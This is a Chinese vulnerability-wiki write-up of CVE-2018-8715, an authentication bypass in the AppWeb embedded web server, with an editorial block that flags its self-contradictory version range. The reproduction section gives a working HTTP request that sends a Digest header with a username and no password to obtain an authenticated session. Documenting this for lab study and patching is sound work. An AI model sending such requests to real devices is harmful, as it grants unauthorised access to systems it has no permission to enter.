


# （CVE-2018-8715）AppWeb认证绕过漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：digest/form认证与已知用户名
- 证据范围：与352实质同文，可择保留图文更全的版本并更正版本。

### 已有来源支持的更正

- 厂商确认7.0.3安全修复认证绕过

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 影响<=7.0.3错误，7.0.3已修复，简介之前与范围自相矛盾
- 图片后重复路径残留
- 无修复说明；Digest会话cookie描述需限定Appweb实现

### 核验来源

- https://www.embedthis.com/blog/2018/april-releases/

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

AppWeb是Embedthis Software
LLC公司负责开发维护的一个基于GPL开源协议的嵌入式Web
Server。他使用C/C++来编写，能够运行在几乎先进所有流行的操作系统上。当然他最主要的应用场景还是为嵌入式设备提供Web
Application容器。

AppWeb可以进行认证配置，其认证方式包括以下三种：

-   basic 传统HTTP基础认证

-   digest
    改进版HTTP基础认证，认证成功后将使用Cookie来保存状态，而不用再传递Authorization头

-   form 表单认证

其7.0.3之前的版本中，对于digest和form两种认证方式，如果用户传入的密码为`null`（也就是没有传递密码参数），appweb将因为一个逻辑错误导致直接认证成功，并返回session。

二、漏洞影响
------------

AppWeb \<=7.0.3

三、复现过程
------------

利用该漏洞需要知道一个已存在的用户名，当前环境下用户名为`admin`。

构造头`Authorization: Digest username=admin`，并发送如下数据包：

    GET / HTTP/1.1
    Host: example.com
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Authorization: Digest username=admin

可见，因为我们没有传入密码字段，所以服务端出现错误，直接返回了200，且包含一个session：

AppWeb认证绕过漏洞/media/rId24.png)

设置这个session到浏览器，即可正常访问需要认证的页面：

AppWeb认证绕过漏洞/media/rId25.png)

参考链接
--------

> https://vulhub.org/\#/environments/appweb/CVE-2018-8715/
